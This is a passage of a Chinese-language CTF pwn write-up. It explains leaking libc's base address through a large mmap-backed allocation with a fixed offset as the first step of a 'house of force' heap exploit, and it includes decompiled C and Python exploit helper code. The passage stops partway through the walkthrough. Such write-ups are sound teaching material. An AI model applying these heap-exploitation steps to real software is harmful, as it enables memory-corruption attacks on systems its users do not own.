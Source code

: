 
```plain
unsigned __int64 fake_show()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts(&byte_D93);           //'\n'
  return __readfsqword(0x28u) ^ v1;
}
```

### 思路

这个程序对申请 chunk 的大小没有要求，只有 add 函数  
所以这里先用 mmap 获取 libc\_base，在打个 house of force

### 详细流程

首先程序申请完堆块后就会把堆块地址打印出来，所以这里直接用返回堆块的地址

```plain
def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr
```

```plain
libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)
```

直接利用 mmap 的固定偏移泄露出来 libc\_base，这里只是扩展了堆空间，并没有申请 chunk  
如果下一步正常申请的话，还是可以看到正常的 top chunk 的

[![](assets/1701612371-9690b0d4d89a86302296f2a763b93ff4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145748-96eeb32e-17dc-1.png)
